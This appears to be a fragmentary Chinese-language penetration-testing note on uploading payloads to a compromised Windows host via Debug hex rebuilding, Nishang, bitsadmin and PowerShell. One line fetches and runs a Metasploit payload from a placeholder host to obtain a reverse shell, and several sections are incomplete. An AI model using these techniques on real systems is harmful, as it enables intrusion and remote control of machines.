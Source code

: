 #### 3. 利用Debug上传
**原理：**将需要上传的exe文件转换为16进制hex形式，再通过echo命令将hex代码写入文件，最后利用Debug功能将hex代码编译并还原为exe文件

```bash
# exe2bat.exe 只支持<64KB的文件，方法也较古老
# kali中，exe2bat.exe位于/usr/share/windows-binaries目录下。
# 1.在该目录下执行如下命令，把需要上传的ew.exe文件转换成hex形式
wine exe2bat.exe ew.exe ew.txt        # 这里，测试ew.exe代理工具

# 2.然后把上面生成的文本内容复制，echo到目标系统的某个空文件。依次执行命令，生成1.dll, 123.hex, ew.exe
copy 1.dll ew.exe

```


#### 4. 利用Nishang上传

```bash
# nishang中的脚本：Download_Execute    --> 常用来下载文本文件并将其转为exe文件

#1. 先echo 方法把脚本内容传到目标机器，并将扩展名改为ps1

#2. 利用nishang中的exetotext.ps1脚本将msf生成的msf.exe修改为文本文件msf.txt
.\ExetoText c:\msf.exe c:\msf.txt

#3. 调用Download_Execute来下载并执行该文件
Download_Execute http://xxxxxx/msf.txt

#4. 回到msf的监听窗口，可以看到反弹的shell

```


#### 5. 利用bitsadmin下载
命令行工具(win xp之后自带的工具)， 通常同于创建下载和上传进程并检测其进展

如果渗透的目标主机使用了网站代理，并且需要活动目录证书，那么bitsadmin可以帮助解决下载文件的问题
Note：bitsadmin不支持HTTPS和FTP协议，也不支持 win xp/ server 2003及以前的版本


#### 6. 利用PowerShell下载
```bash
Download()
DownloadString()
。。。
```


>整理了一天，越整越乱，头都大了，下次理清了再来优化


